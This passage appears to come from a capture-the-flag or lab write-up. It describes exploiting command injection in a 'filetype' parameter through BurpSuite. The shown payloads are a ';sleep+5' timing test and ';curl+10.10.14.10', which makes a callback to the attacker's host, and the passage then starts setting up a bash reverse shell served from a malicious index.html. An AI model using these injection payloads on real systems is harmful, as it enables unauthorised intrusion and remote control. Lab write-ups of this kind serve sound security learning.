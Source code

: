 ## 3. Exploitation

### 3.1 Command Injection

Intercepting the request in BurpSuite and injecting payloads.  
Only the `filetype` parameter is vulnerable.

A test with `;sleep+5` delays the request, confirming injection. 
Verifying with:

```
;curl+10.10.14.10
```

![](screenshots/burpsuite.png)

A callback is received, confirming execution.

### 3.2 Reverse Shell

Create a malicious `index.html` containing a bash reverse shell payload:

![](screenshots/index_bash.png)
